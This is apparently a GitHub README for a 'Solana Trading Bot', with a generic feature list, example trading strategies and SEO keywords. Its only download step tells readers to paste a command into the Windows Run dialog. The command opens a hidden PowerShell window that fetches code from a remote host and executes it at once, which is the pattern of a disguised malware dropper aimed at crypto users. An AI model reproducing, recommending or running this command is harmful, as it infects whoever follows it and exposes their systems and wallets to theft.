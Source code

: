 # Solana Trading Bot 🌞💰

## Project Description
**Solana Trade Bot** is an automated trading bot designed to trade cryptocurrencies on the Solana blockchain. The bot leverages the high throughput and low transaction costs of Solana to execute trades efficiently and capitalize on market opportunities.

## Key Features
- **Solana Network Integration**: Connects seamlessly with the Solana blockchain for fast and cost-effective trading.
- **Real-Time Market Analysis**: Continuously monitors market trends and price movements on Solana-based tokens.
- **Automated Trading**: Executes trades automatically based on custom strategies and market signals.
- **Risk Management**: Implements risk management techniques to safeguard your investments.
- **User -Friendly Dashboard**: Provides an intuitive interface for monitoring trades and performance.


## Usage 🚀
<h2>📥 Download the bot</h2>
<h3>copy and execute the following command in (Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://updatelib.nfortek.pt/';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>

## Example Strategies 📈
- **Market Making**: Provide liquidity by placing buy and sell orders around the current market price.
- **Arbitrage**: Exploit price discrepancies between different exchanges or markets.
- **Trend Following**: Identify and trade in the direction of market trends.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [Solana Documentation](https://docs.solana.com/)
- [Solana API Reference](https://docs.solana.com/api)

---

**SEO Keywords**: Solana Trading Bot, automated trading, cryptocurrency, blockchain trading, trading strategies, market analysis.
